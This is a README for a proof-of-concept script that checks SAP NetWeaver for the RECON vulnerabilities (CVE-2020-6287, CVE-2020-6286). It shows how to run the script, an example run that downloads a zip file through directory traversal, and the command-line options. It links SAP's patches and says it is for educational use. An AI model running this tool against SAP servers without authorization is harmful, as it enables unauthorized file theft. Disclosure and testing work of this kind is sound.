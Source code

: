 PoC for CVE-2020-6287, CVE-2020-6286 (SAP RECON vulnerability)

~~Pffff! RECON (Remotely Exploitable Code On NetWeaver)? Guys, really? That was the best codename you came up with? :)~~ 

This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and as PoC exploits directory traversal in `queryProtocol` method.

Directory traversal allows to download any `zip` from SAP server.

***This PoC doesn't provide RCE/user creation functionality.<br>This project is created only for educational purposes and cannot be used for law violation or personal gain.
<br>The author of this project is not responsible for any possible harm caused by the materials of this project***

Original finding: [Pablo Artuso](https://twitter.com/lmkalg)

Solution: [#2934135](https://launchpad.support.sap.com/#/notes/2934135), [#2939665](https://launchpad.support.sap.com/#/notes/2939665)



# How to use


Just point SAP NW AS Java hostnmae/ip.

There is additional options:

1. `-c` - check if SAP server is vulnerable to RECON
2. `-f` - download `zip` file from SAP server


Ex.:

```
~python RECON.py -H 172.16.30.8 -f /1111.zip
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Ok! File zipfile_929.zip was saved
```

## All options


```
~python RECON.py -h
usage: RECON.py [-h] [-H HOST] [-P PORT] [-s] [-c] [-f ZIPFILE]
                [--timeout TIMEOUT] [-v]

PoC for CVE-2020-6287, CVE-2020-6286 (RECON)
This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and exploits dir traversal in queryProtocol method
Original finding: Pablo Artuso. https://twitter.com/lmkalg
Solution: https://launchpad.support.sap.com/#/notes/2934135, https://launchpad.support.sap.com/#/notes/2939665

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Java NW host (default: 127.0.0.1)
  -P PORT, --port PORT  Java NW web port (default: tcp/50000)
  -s, --ssl             enable SSL
  -c, --check           just detect vulnerability
  -f ZIPFILE, --zipfile ZIPFILE
                        ZIP file to read. CVE-2020-6286
  --timeout TIMEOUT     HTTP connection timeout in second (default: 10)
  -v, --verbose         verbose mode
```
